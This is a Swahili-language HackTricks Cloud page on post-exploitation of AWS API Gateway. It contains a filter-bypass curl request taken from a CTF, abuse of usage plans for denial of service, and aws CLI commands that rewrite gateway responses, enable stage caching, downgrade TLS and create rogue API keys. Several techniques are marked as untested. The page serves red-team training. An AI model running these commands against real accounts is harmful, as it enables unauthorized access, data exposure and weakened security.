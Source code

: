 # AWS - Uchimbaji wa Baada ya Uvamizi wa API Gateway

{% hint style="success" %}
&#x20;Jifunze & zoezi la Uchimbaji wa AWS:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
&#x20;Jifunze & zoezi la Uchimbaji wa GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya GCP (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za uchimbaji kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

Kwa habari zaidi angalia:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Kufikia APIs zisizofichuliwa

Unaweza kuunda mwisho katika [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) na huduma `com.amazonaws.us-east-1.execute-api`, fichua mwisho katika mtandao ambapo una ufikivu (labda kupitia mashine ya EC2) na weka kikundi cha usalama kuruhusu mawasiliano yote.\
Kisha, kutoka kwenye mashine ya EC2 utaweza kufikia mwisho na hivyo kuita API ya lango ambayo haikufichuliwa awali.

### Kupita kwenye Uhamishaji wa Mwili wa Ombi

Mbinu hii iligunduliwa katika [**hii CTF writeup**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Kama ilivyoelezwa katika [**nyaraka za AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) katika sehemu ya `PassthroughBehavior`, kwa chaguo-msingi, thamani **`WHEN_NO_MATCH`** , wakati wa kuchunguza kichwa cha **Content-Type** cha ombi, itapitisha ombi kwa nyuma bila mabadiliko.

Kwa hivyo, katika CTF lango la API lilikuwa na kigezo cha uingiliano ambacho kilikuwa **kizuizi bendera kutotolewa** katika jibu wakati ombi lilipotumwa na `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Walakini, kutuma ombi na **`Content-type: text/json`** ingezuia kichuja hicho.&#x20;

Hatimaye, kwa kuwa Lango la API ilikuwa ikiruhusu tu `Get` na `Options`, ilikuwa inawezekana kutuma ombi la utafutaji wa dynamoDB bila kikomo kutuma ombi la POST na utafutaji kwenye mwili na kutumia kichwa `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Matumizi ya Mipango ya Matumizi DoS

Katika sehemu ya **Uorodheshaji** unaweza kuona jinsi ya **kupata mpango wa matumizi** wa funguo. Ikiwa una funguo na ime **zuiliwa** kwa matumizi X **kwa mwezi**, unaweza **kuitumia tu na kusababisha DoS**.

**Funguo ya API** inahitaji tu kuwa **imejumuishwa** ndani ya **kichwa cha HTTP** kinachoitwa **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa za `apigateway:UpdateGatewayResponse` na `apigateway:CreateDeployment` anaweza **kurekebisha Jibu la Lango lililopo ili kujumuisha vichwa vya desturi au templeti za majibu zinazovuja habari nyeti au kutekeleza hati za malicious**.
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Kutokwa na taarifa nyeti, kutekeleza script za uovu, au kupata ufikivu usioruhusiwa kwenye rasilimali za API.

{% hint style="info" %}
Inahitajika kupimwa
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa za `apigateway:UpdateStage` na `apigateway:CreateDeployment` anaweza **kubadilisha hatua ya sasa ya API Gateway kurekebisha trafiki kuelekezwa kwenye hatua tofauti au kubadilisha mipangilio ya kuhifadhi ili kupata ufikivu usioruhusiwa wa data iliyohifadhiwa**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Athari Inayowezekana**: Upatikanaji usiohalali wa data iliyohifadhiwa, kuvuruga au kuingilia trafiki ya API.

{% hint style="info" %}
Inahitaji majaribio
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa za `apigateway:PutMethodResponse` na `apigateway:CreateDeployment` anaweza **kurekebisha jibu la mbinu ya API ya Gateway ya REST iliyopo ili kujumuisha vichwa vya desturi au templeti za majibu ambazo hufichua habari nyeti au kutekeleza hati za malicious**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Athari Inayoweza Kutokea**: Kuvuja kwa taarifa nyeti, kutekeleza scripti zenye nia mbaya, au kupata ufikivu usioruhusiwa kwenye rasilimali za API.

{% hint style="info" %}
Inahitaji majaribio
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa za `apigateway:UpdateRestApi` na `apigateway:CreateDeployment` anaweza **kubadilisha mipangilio ya API Gateway REST API kwa kuzima kuingiza kumbukumbu au kubadilisha toleo la chini la TLS, hivyo kupunguza usalama wa API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Athari Inayowezekana**: Kupunguza usalama wa API, ikiruhusu ufikiaji usioruhusiwa au kufichua habari nyeti.

{% hint style="info" %}
Inahitaji majaribio
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Mshambuliaji mwenye ruhusa za `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, na `apigateway:CreateUsagePlanKey` anaweza **kuunda funguo mpya za API, kuzihusisha na mipango ya matumizi, na kuzitumia funguo hizi kwa ufikiaji usioruhusiwa wa API**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Athari Inayowezekana**: Upatikanaji usiohalali wa rasilimali za API, kukiuka udhibiti wa usalama.

{% hint style="info" %}
Inahitaji majaribio
{% endhint %}

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya HackTricks AWS)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa muundo wa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
